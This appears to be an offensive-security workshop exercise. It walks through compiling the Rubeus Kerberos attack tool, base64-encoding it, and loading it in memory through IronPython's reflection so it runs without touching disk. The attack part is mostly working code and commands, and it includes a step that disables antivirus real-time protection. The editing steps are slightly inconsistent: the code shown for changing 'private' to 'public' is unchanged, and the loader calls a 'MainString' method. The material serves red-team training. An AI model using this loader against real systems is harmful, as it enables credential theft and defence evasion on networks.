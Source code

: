 # Exercise 7: Loading and Executing a .NET Assembly from Base64 in IronPython

## Pull, Modify, and Compile Rubeus
1. If not using the provided range, download [Rubeus](https://github.com/GhostPack/Rubeus.git)
2. Locate the Visual Studio shortcut on your desktop or find it from the Start menu and open it.
3. Open the Rubeus Solution: `Click on File > Open > Project/Solution`
4. Locate the Main Method in Rubeus/Program.cs, which is named `public static void Main(string[] args)`.
5. Change the private keyword to public to make the method publicly accessible:
csharp
```
public static void Main(string[] args)
```
6. Navigate to the top menu and click `Build > Build Solution`.
7. Copy Rubeus.exe to `C:\Program Files\IronPython 3.4`

## Converting to Base64
1. From `C:\Program Files\IronPython 3.4`, open a notepad named `file_to_base64.py`.
2. Write a Python function to convert a file into its base64 representation.

```python
import base64

def file_to_base64(file_path, output_file_path):
    with open(file_path, 'rb') as file:
        base64_encoded = base64.b64encode(file.read()).decode('utf-8')
        
    with open(output_file_path, 'w') as out_file:
        out_file.write(base64_encoded)

file_to_base64('Rubeus.exe', 'output_base64.txt')
```

3. Execute the function with the path to your .NET assembly.

```powershell
.\ipy.exe .\file_to_base64.py
```

4. Copy the printed base64 string for the next task.

![Alt text](image.png)

5. The file is also located [here](./output_base64.txt).

## Creating the Function
Now we are going to create the IronPython function to load the assembly.

1. Open a new Notepad and name as `IronRubeus.py`
2. Import the required IronPython modules and .NET libraries.

```python
import clr
import System
import base64
import argparse
from System.Reflection import Assembly
```

3. Next, add the base64 encoded string.

```python
base64_str = "TVqQAAMAAAAEAAAA//8AALgAAA..."
```

4. Add a function to convert the base64 string to a byte array.

```python
def base64_to_bytes(base64_string):
    return System.Array[System.Byte](base64.b64decode(base64_string))
```

5. Add a function to convert a Python list to a .NET string array.

```python

# Convert a Python list to a .NET string array
def to_clr_array(py_list):
    arr = System.Array.CreateInstance(System.String, len(py_list))
    for i, item in enumerate(py_list):
        arr[i] = item
    return arr
```

6. Define a function to load and execute the assembly.

```python
def load_and_execute_assembly(command):
    assembly_bytes = base64_to_bytes(base64_str)
    
    # Load the assembly
    assembly = Assembly.Load(assembly_bytes)
    
    # Get the type of the Rubeus.Program class
    rubeus_program_type = assembly.GetType("Rubeus.Program")

    # You don't need to create an instance of the class for a static method
    method = rubeus_program_type.GetMethod("MainString")

    # Convert your command to a .NET string array
    command_args = to_clr_array([command])

    # Invoke the MainString method
    result = method.Invoke(None, command_args)

    return result
```

7. Use the function to load and execute the assembly.

```python
def main():
    parser = argparse.ArgumentParser(description='Execute a command on a hardcoded base64 encoded assembly')
    parser.add_argument('command', type=str, help='Command to execute (like "help" or "triage")')

    args = parser.parse_args()
    
    result = load_and_execute_assembly(args.command)
    print(result)

if __name__ == "__main__":
    main()
```
8. Disable real-time protection to run the script.

9. Type: ` .\ipy.exe .\IronRubeus.py help` and you should receive the following output.

![image](https://github.com/BC-SECURITY/Taming-Offensive-IronPython/assets/20302208/0d408f52-216f-43e9-b538-77ce56bc3580)
